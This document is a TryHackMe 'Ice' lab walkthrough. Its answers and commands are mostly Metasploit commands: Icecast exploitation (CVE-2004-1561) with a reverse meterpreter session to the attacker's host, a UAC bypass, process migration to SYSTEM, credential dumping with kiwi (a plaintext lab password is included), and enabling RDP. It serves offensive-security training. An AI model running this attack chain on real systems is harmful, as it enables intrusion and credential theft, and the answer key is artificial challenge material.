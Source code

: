 # THM - Ice

<br>

## Task 2

```shell
mkdir nmap
sudo nmap -sS -p- 10.10.66.203 -oN nmap/initial
nmap -A -p- 10.10.66.203 -oN nmap/initial2
```

### Task 2.3

> 3389

<br>

### Task 2.4

> Icecast

<br>

### Task 2.5

> DARK-PC

<br>

## Task 3

### Task 3.1

🧰 https://www.cvedetails.com/

https://www.cvedetails.com/cve/CVE-2004-1561/

> Execute Code Overflow

<br>

### Task 3.2

> CVE-2004-1561

<br>

```shell
msfconsole
```

### Task 3.4

```shell
	search icecast
```

> exploit/windows/http/icecast_header

```shell
	use exploit/windows/http/icecast_header
```

<br>

### Task 3.6

```shell
		show options
```

> RHOSTS

```shell
		set LHOST 10.14.27.197
		set RHOSTS 10.10.66.203
		exploit
```

<br>

## Task 4

### Task 4.1

> meterpreter

<br>

### Task 4.2

```shell
			getuid
```

> Dark

<br>

### Task 4.3

```shell
			sysinfo
```

> 7601

<br>

### Task 4.4

> x64

```shell
			run post/multi/recon/local_exploit_suggester
```

<br>

### Task 4.6

> exploit/windows/local/bypassuac_eventvwr

<br>

```shell
			^Z
			y
		
		back
	use exploit/windows/local/bypassuac_eventvwr
		
		show options
		sessions
		set SESSION 1
```

### Task 4.10

> LHOST

```shell
		set LHOST 10.14.27.197
		
		run
```

<br>

### Task 4.14

```shell
			getprivs
```

> SeTakeOwnershipPrivilege

<br>

## Task 5

### Task 5.2

```shell
			ps
```

> spoolsv.exe

```shell
			migrate -N spoolsv.exe
```

<br>

### Task 5.4

```shell
			getuid
```

> NT AUTHORITY\SYSTEM

```shell
			load kiwi
			
			help
```

<br>

### Task 5.7

> creds_all

<br>

### Task 5.8

```shell
			creds_all
```

> Password01!

<br>

## Task 6

```shell
			help
```

### Task 6.2

> hashdump

<br>

### Task 6.3

> screenshare

<br>

### Task 6.4

> record_mic

<br>

### Task 6.5

> timestomp

<br>

### Task 6.6

> golden_ticket_create

<br>

```shell
			run post/windows/manage/enable_rdp
```

https://www.exploit-db.com/exploits/568

